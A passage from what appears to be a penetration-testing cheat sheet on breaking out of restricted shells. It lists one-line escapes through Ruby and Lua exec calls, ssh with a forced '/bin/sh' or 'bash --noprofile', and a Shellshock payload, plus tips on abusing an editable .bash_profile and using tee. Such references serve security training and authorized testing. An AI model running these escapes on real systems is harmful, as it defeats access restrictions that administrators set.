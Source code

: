 ```ruby
exec "/bin/sh"
```

### Lua
```sh
os.execute('/bin/sh')
```

## Unrestricted Mode

Some restricted shells start
running files in an unrestricted mode
before the restricted shell is applied.
If `.bash_profile` is executed in an unrestricted mode,
and it's editable,
you'll be able to execute code and commands
as an unrestricted user.

## From The Outside

### Command Execution

Execute a command
before the remote shell is loaded.

```sh
ssh user@{{< param "war.rhost" >}} -t "/bin/sh"
```
### Profile

Start a remote shell
with an unrestricted profile.

```sh
ssh user@{{< param "war.rhost" >}} -t "bash --noprofile"
```

### Shellshock

```sh
ssh user@{{< param "war.rhost" >}} -t "(){:;}; /bin/bash"
```

## Miscellaneous

### Output Redirection

Since redirection operators (`>` or `>>`)
are usually restricted,
the `tee` command can help you
redirect the output of,
for example,
the `echo` command.
